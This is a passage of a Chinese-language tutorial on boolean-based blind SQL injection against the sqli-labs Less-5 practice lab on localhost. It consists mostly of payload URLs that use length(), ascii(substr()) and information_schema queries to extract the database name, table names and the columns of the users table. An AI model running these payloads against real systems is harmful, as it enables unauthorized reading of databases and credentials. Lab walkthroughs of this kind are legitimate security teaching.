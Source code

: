 ```
​
大于7正常显示，大于8不显示，说明大于7而不大于8，所以可知当前数据库长度为 8
​
2：判断当前数据库的字符,和上面的方法一样，利用二分法依次判断
//判断数据库的第一个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),1,1))&gt;100
​
//判断数据库的第二个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),2,1))&gt;100
​
...........
由此可以判断出当前数据库为 security
```

3：判断当前数据库中的表

```
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from admin)   //猜测当前数据库中是否存在admin表
1：判断当前数据库中表的个数
// 判断当前数据库中的表的个数是否大于5，用二分法依次判断，最后得知当前数据库表的个数为4
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())&gt;5 #
​
2：判断每个表的长度
//判断第一个表的长度，用二分法依次判断，最后可知当前数据库中第一个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6
​
//判断第二个表的长度，用二分法依次判断，最后可知当前数据库中第二个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=6
​
3：判断每个表的每个字符的ascii值
//判断第一个表的第一个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))&gt;100 #
​
//判断第一个表的第二个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))&gt;100 #
​
.........
由此可判断出存在表 emails、referers、uagents、users ，猜测users表中最有可能存在账户和密码，所以以下判断字段和数据在 users 表中判断
```

[![](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)4. 判断表中的字段

```
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select username from admin)   //如果已经证实了存在admin表，那么猜测是否存在username字段
1：判断表中字段的个数
//判断users表中字段个数是否大于5，这里的users表是通过上面的语句爆出来的
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(column_name) from information_schema.columns where table_name='users')&gt;5 #
​
2：判断字段的长度
//判断第一个字段的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))&gt;5
​
//判断第二个字段的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 1,1))&gt;5
​
```